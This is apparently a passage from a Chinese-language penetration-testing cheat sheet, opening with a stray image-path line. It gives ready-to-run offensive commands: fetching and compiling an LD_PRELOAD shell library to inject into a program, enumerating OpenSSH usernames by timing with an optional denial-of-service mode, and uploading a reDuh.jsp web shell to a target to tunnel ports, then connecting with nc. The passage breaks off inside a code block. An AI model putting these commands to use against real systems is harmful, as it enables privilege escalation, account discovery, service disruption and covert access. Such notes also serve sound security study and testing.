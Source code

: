 user:~$ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)
```
使用 LD_PRELOAD 注入程序
```
$ wget https://github.com/jivoi/pentest/ldpreload_shell.c
$ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
$ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft
```
针对 OpenSSH 用户进行枚举时序攻击

注：枚举时序攻击(“Enumeration Timing Attack”)属于侧信道攻击/旁路攻击(Side Channel Attack)，侧信道攻击是指利用信道外的信息，比如加解密的速度/加解密时芯片引脚的电压/密文传输的流量和途径等进行攻击的方式，一个词形容就是“旁敲侧击”。–参考自 shotgun 在知乎上的解释。

osueta 是一个用于对 OpenSSH 进行时序攻击的 python2 脚本，其可以利用时序攻击枚举 OpenSSH 用户名，并在一定条件下可以对 OpenSSH 服务器进行 DOS 攻击。
```
# https://github.com/c0r3dump3d/osueta
$ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
$ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt
```
使用 ReDuh 构造合法的 HTTP 请求以建立 TCP 通道

注： ReDuh 是一个通过 HTTP 协议建立隧道传输各种其他数据的工具。其可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。

对了亲～ReDuh-Gui 号称端口转发神器哦。
```
# https://github.com/sensepost/reDuh

# 步骤 1
# 上传 reDuh.jsp 目标服务器
$ http://192.168.10.50/uploads/reDuh.jsp

# 步骤 2
# 在本机运行 reDuhClient
$ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp

# 步骤 3
# 使用 nc 连接管理端口
$ nc -nvv 127.0.0.1 1010

